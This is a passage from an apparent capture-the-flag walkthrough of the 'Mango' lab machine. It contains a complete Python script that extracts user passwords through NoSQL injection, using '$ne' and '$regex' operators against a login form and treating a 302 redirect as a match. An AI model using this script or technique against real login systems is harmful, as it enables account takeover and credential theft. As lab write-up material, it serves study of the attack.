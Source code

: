 Now we know the users ```admin``` and  ```mango```  exist. Its time to repeat the same process to found passwords:

#### enum-pass.py

````bash
#!/usr/bin/python3

from requests import post
from string import *

url = "http://staging-order.mango.htb/"

def sendrequest(data):

    
    # to debug send the request to proxy
    #r=post(url,data=data, allow_redirects=False,proxies={'http':'localhost:8080'})
    
    r=post(url , data=data, allow_redirects=False)
    if r.status_code == 302: # status code that equal to bypass portal login
        return True
    
def payload():
    

    for  c in printable: # external loop , the first letter wil be a, second b ...

        password = c
        payload = c

        while True: # NEVER DO THAT IN REAL WORLD PROGRAMMING

            charset = " " + printable # space + lowercases

            for c in charset: # internal loop, in the first time the string payload = 'a '
                
                if c in [ "^" , "$"  ,"|" , "\\", ".", "~", "{" , "}" , "[", "]","*", "+" , "?"]:
                    payload=password + '\\' + c
                
                else:
                    payload=password  + c

                print("\r"+payload,flush=False,end="")
				
				# change the username to mango to found admin password
                data={"username[$ne]":"admin","password[$regex]":payload +".*","login":"login"}

                if sendrequest(data):
                    print("\r"+payload,flush=True,end="")
                    password +=   c  # save the string witch match to satus code
                    break
            
            # to leave while true
            # change the username to mango to found admin password
            data={"username[$ne]":"admin","password[$regex]":payload +"$","login":"login"}
            
            if sendrequest(data):
                break
            
            # to leave when internal loop achieve the last letter that is z
            if c == '\x0c':
                break
        print(" ")
````